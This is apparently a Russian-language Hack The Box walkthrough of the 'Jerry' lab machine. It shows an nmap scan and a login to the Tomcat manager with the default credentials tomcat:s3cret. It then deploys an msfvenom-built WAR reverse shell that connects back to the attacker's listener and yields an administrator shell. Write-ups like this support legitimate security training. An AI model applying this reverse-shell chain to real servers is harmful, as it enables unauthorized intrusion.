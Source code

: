 # 🟢 Jerry(Windows, Easy)

![](<../.gitbook/assets/1 (1).png>)

### Содержание:

В самом начале мы сканируем порты и обнаруживаем только один порт. На данном порту расположен tomcat. Используя дефолтные значения, заходим в панель tomcat и загружаем туда war-эксплоит, который даст нам реверс шелл, который будет уже с правами админа.

### Сканируем порты с помощью nmap:

```
$ nmap -sC -sV -Pn 10.10.10.95 -oN nmap
```

```
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1
```

### Входим с помощью дефолтных данных:

На 8080 порту мы видим tomcat:

![](<../.gitbook/assets/2 (1).png>)

Можем перейти на /manager/html и использовать дефолтные креды, чтобы попасть в панель админа:

`tomcat:s3cret`

![](<../.gitbook/assets/3 (1) (1).png>)

### Создаем war эксплоит с помощью msfvenom:

```
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.43 LPORT=9898 -f war > shell.war
```

Загружаем в tomcat:

![](../.gitbook/assets/4.png)

Ставим листенер:

```
$ nc -nlvp 9898
```

### Запускаем эксплоит и получаем администратора:

Заходим по [http://10.10.10.95:8080/shell](http://10.10.10.95:8080/shell) и получаем шелл. Изначально оболочка получается сразу от имени админа, можно прочитать файл с флагом с помощью данной команды:

```
C:\Users\Administrator\Desktop\flags>type "C:\Users\Administrator\Desktop\flags\2 f
type "C:\Users\Administrator\Desktop\flags\2 for the price of 1.txt"
```

![](../.gitbook/assets/5.png)
